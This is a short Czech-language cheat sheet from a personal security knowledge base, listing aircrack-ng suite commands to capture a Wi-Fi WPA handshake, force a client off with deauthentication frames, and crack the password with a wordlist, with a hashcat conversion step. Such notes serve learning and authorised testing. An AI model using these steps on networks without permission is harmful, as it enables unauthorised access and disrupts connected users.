 ```yaml
---
tags: [kbb, kbb/tools, command]
cmd: aircrack-ng
---
```

# aircrack-ng

- `airmon-ng start <IF>` (`IF`=`wlan0`) - zacne monitorivaci rezim, vytvori `<IF>mon`
- `airodump-ng <IF>mon` (`wlan0mon`) - ukaze seznam dostupnych wifi
- `airodump-ng -c <CHANNEL> --bssid <BSSID> -w psk <IF>mon`
	- `<CHANNEL>` je channel na kterem je wifi (viz seznam dostupnych wifi)
	- `<BSSID>` je hex kod wifi (viz seznam dostupnych wifi)
	- `-w psk` nastavi prefix souboru na `psk`
	- dumpne hash. Je potreba aby se pripojilo zarizeni, a az potom dumpne hash. Neskonci sam o sobe, dumpne komunikaci na pozadi.
- `aireplay-ng -0 1 -a <AP MAC> -c <CLIENT MAC> <IF>mon`
	- `-0` - posila deauth
	- `1` - posle ho jednou
	- `-a <AP MAC>` ktere wifi to poslat (vetsinou BSSID)
	- `-c <CLIENT MAC>` ktereho clienta odhlasit (v airodump se pod seznam wifi zobrazuje i pripojeni klienti a ke komu)
	- posle DEAUTH. Optional, pokud se vi ze se nekdo pripoji tak se to delat nemusi
- `aircrack-ng -w <WORDLIST -b <BSSID> psk*.cap`
	- crackne samotne heslo

Pokud se misto aircrack-ng chce pouzit hashcat, `hcxpcapngtool psk*.cap psk.hashcat` (z `hxctools`) prevede na hash, `hcxhashtool` prevede na dalsi hash ???